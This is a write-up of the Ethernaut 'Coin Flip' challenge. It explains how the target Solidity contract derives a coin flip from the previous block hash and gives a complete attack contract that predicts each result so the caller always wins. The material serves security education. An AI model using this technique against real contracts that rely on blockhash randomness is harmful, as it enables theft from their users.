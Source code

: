 # Ethernaut Challenge 3 - Coin Flip


## Going through the code

```solidity
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
```
Initially the contract declares these 3 variables. 

- The consecutiveWins is a variable that holds the value of how many coin flips we win continuously. 

- lastHash is a variable to record the hash of the previous block.

- FACTOR is an integer that helps in easing the randomization because randomization is not an easy task to do on the blockchain.


```solidity
  constructor() {
    consecutiveWins = 0;
  }
```
A constructor is an optional function that initializes state variables. In our case, we are initializing consecutiveWins as 0;

```solidity
function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
```

Here comes the main part of the contract code - the function ```flip()```. This is a public function that returns the value true or false. We first have a ```uint256 blockValue = uint256(blockhash(block.number - 1));``` This blockValue is a typecasted blockhash of the previous block on the blockchain.

> blockhash - every block in a blockchain has a unique fingerprint and the blockhash is used for identifying that particular block.
> block.number gives us the current block > if we subtract 1, we are going to the previous block

We check if the hash of the previous block is the same as the current blockValue. If it is, then we revert the transaction.
Else we equate lastHash to the blockValue. 

In order to get the probability of the coinFlip, we are making a formula of the blockValue/FACTOR. This helps in making the  calculation of the randomization easier.

> FACTOR is just an integer that helps in easing the randomization

The bool side checks if the coinFlip is equal to 1. If it is equal to 1, side becomes true else ```side``` becomes ```false```.

Next we see if the side is equal to the __guess_ that is passed. In the case that it is equal, the consecutiveWins variable goes up by 1 and the function is returned as true. Else, the consecutiveWins is reset and becomes 0 and returns the function value as false.


# Solution
In order to override this contract, let's build another contract to hack this. 
I built the following contract on [Remix IDE](https://remix.ethereum.org/)

### CoinFlipHack.sol


```solidity
pragma solidity ^0.8.0;

import "./CoinFlip.sol";

contract CoinFlipHack {
    CoinFlip public hackedContract;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    // _hackedContractAddr = 0xA91C791D56895210967d1ec7a69Fe4b8fc7a910e;

    constructor(address _hackedContractAddr) public {
        hackedContract = CoinFlip(_hackedContractAddr);
    }

    function flip() public returns (bool){
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = uint256(blockValue/FACTOR);
        bool side = coinFlip == 1 ? true : false;
        hackedContract.flip(side);
    }

}
```

So, how is this code overriding the main contract code?

We first import the previous contract by simply making another file copy pasting the code on there and naming it CoinFlip. 

After adding the import statement, let's build our CoinFlipHack smart contract code.
hackedContract is the public variable to represent the original contract.
We are using the same FACTOR from before.

We declare the constructor with the argument __hackedContractAddr__ which is of address type this address is the CoinFlip contract address that we will be deploying at. 

The function flip() has the blockValue same as before and coinFlip is calculated in the same way. However, when we pass the contract with our side variable, what is happening is on the original contract, we are getting a _guess = side and if you recall, in the original contract, we had 

```solidity
    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
 ```
 
 Once we already pass the arguement that side in the contract and the _guess that we pass (that we already know the value of), we are getting a return of true and will always provide the value of true.
 
 Hence, is the solution of the challenge.
 
_If you have any improvements to make to this, feel free to fork and make a pull request._

